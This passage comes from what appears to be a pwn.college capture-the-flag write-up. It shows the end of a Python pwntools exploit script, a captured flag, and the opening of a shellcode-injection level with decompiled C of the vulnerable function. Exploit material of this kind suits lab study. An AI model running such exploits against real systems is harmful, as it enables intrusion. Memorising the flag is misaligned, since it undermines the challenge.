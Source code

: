 ```python
        response = target.recvall(timeout=5)

        return b"pwn.college{" in response
    except Exception as e:
        log.exception(f"An error occurred while performing attack: {e}")


def main():
    try:
        target = launch()
        payload = construct_payload(1)

        send_payload(target, payload)

        payload = construct_payload(2)

        if attack(target, payload):
            log.success("Success! Exiting...")

            pause()
            exit()
    except Exception as e:
        log.exception(f"An error occurred in main: {e}")


if __name__ == "__main__":
    main()
```

## Flag

Flag: `pwn.college{8kWI1BeY-FwKn2lIHdlSEEYHZ_G.0FMyMDL5cTNxgzW}`

# Level 2.0

## Information

- Category: Pwn

## Description

> Write a full exploit involving injecting shellcode and a method of tricking the challenge into executing it. Note, ASLR is disabled!

## Write-up

```c del={8, 19, 52, 60} collapse={1-4, 12-15, 23-48, 56-56, 64-79}
__int64 __fastcall challenge(int a1, __int64 a2, __int64 a3)
{
  int *v3; // rax
  char *v4; // rax
  _QWORD v6[3]; // [rsp+0h] [rbp-50h] BYREF
  int v7; // [rsp+1Ch] [rbp-34h]
  size_t nbytes; // [rsp+28h] [rbp-28h] BYREF
  _QWORD v9[2]; // [rsp+30h] [rbp-20h] BYREF
  int v10; // [rsp+44h] [rbp-Ch]
  void *buf; // [rsp+48h] [rbp-8h]
  __int64 savedregs; // [rsp+50h] [rbp+0h] BYREF
  _UNKNOWN *retaddr; // [rsp+58h] [rbp+8h] BYREF

  v7 = a1;
```